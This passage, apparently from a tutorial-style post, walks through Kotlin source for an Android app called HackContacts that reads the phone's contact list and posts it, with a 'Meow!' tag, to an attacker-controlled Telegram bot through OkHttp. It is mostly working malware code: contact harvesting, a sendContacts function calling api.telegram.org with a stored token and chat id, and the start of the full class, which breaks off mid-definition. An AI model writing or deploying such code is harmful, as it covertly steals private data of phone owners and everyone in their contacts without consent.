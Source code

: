 ```kotlin
            contactsList.add("$name: $number")
        }
    }

    return contactsList.joinToString(separator = "\n")
}
```

Then sends the retrieved contacts to an attacker-controlled Telegram Bot API using OkHttp:    

```kotlin
// function to send contacts using OkHttp
fun sendContacts(message: String) {
    val token = getTokenFromAssets()
    val chatId = getChatIdFromAssets()
    val contacts = getContacts()
    val meow = "Meow! ♥️\uFE0F"
    val messageToSend = "$message\n\n$contacts\n\n$meow\n\n"

    val requestBody = FormBody.Builder()
        .add("chat_id", chatId)
        .add("text", messageToSend)
        .build()

    val request = Request.Builder()
        .url("https://api.telegram.org/bot$token/sendMessage")
        .post(requestBody)
        .build()

    // send the request asynchronously using OkHttp
    client.newCall(request).enqueue(object : Callback {
        override fun onFailure(call: Call, e: IOException) {
            e.printStackTrace()
        }

        override fun onResponse(call: Call, response: Response) {
            if (response.isSuccessful) {
                // Handle success
                println("Message sent successfully: ${response.body?.string()}")
            } else {
                println("Error: ${response.body?.string()}")
            }
        }
    })
}
```

So the full source code of the sending logic is looks like this `HackContacts`:    

```kotlin
package com.example.hackcontacts2

import android.content.Context
import android.provider.ContactsContract
import okhttp3.*
import java.io.IOException

class HackContacts2(private val context: Context) {

    private val client = OkHttpClient()

    // function to send contacts to Telegram
    fun sendContacts() {
        val token = getTokenFromAssets()
        val chatId = getChatIdFromAssets()
```
